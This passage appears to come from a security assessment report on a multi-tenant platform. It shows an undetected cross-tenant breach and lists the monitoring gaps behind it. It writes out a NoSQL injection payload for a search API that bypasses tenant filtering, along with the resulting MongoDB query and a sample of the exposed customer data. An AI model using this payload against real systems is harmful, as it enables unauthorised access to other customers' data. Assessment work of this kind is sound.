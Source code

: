 **Detection Evasion Validation:**
```
Current Monitoring System Response:
├── SIEM Alert Triggered: ❌ NONE
├── Anomaly Detection: ❌ NONE  
├── Access Pattern Analysis: ❌ NONE
├── Data Exfiltration Detection: ❌ NONE
└── Administrative Alert: ❌ NONE

Root Cause Analysis:
├── API access logs don't include tenant boundary validation
├── Cross-tenant access patterns not monitored
├── No baseline established for normal tenant access
├── Data exfiltration volume thresholds not configured
└── Administrative dashboards don't show cross-tenant anomalies
```

### 1.2 Database-Level Exploitation

**Direct Database Query Manipulation:**
```sql
-- Exploitation via search API parameter injection
POST /api/search HTTP/1.1
Content-Type: application/json
Authorization: Bearer [TENANT_A_TOKEN]

{
  "query": "security incident",
  "filters": {
    "tenant_id": {"$exists": true}  // NoSQL injection to bypass tenant filtering
  }
}

-- Results in MongoDB query:
db.security_events.find({
  "$text": {"$search": "security incident"},
  "tenant_id": {"$exists": true}  // Bypasses tenant_id = 'tenant_a' filtering
})

-- Returns 15,847 security events from ALL tenants
```

**Business Intelligence Exposure:**
```json
{
  "exposed_data": {
    "customer_security_posture": {
      "tenant_victim_corp": {
        "vulnerability_count": 2847,
        "critical_alerts": 89,
        "compliance_failures": 12,
        "security_budget": "$2.4M",
        "competitor_analysis": ["Using Splunk", "Considering CrowdStrike"]
      }
    },
    "competitive_intelligence": {
      "pricing_models": "extracted",
      "customer_churn_rates": "extracted", 
      "feature_usage_analytics": "extracted"
    }
  }
}
```
